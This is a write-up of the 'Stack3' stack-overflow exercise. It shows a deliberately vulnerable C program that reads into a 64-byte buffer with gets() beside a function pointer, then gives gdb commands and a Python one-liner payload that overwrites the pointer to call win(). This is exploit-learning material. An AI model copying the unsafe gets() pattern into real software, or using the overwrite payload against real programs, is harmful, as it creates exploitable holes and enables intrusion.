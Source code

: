 # Stack3

## Description
Stack3 looks at environment variables, and how they can be set, and overwriting function pointers stored on the stack (as a prelude to overwriting the saved EIP)

## Source Code
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```
## Solution
On looking the source code we can see that there is a function `win` which is not called anywhere in the program. But there is pointer which works as a function pointer. If we change the value of this function to the address of win function, it will call win function into the main. We can get the address of the function win using gdb debugger.
![screenshot](screenshot1.jpg)
Then we just need to copy this address and change the value of fp to this address. All this can be done using the following commands
```bash
gdb stack3
x win
quit
python -c "print(('1'*64)+'\x24\x84\x04\x08')" | ./stack3
```
![screenshot](screenshot2.jpg)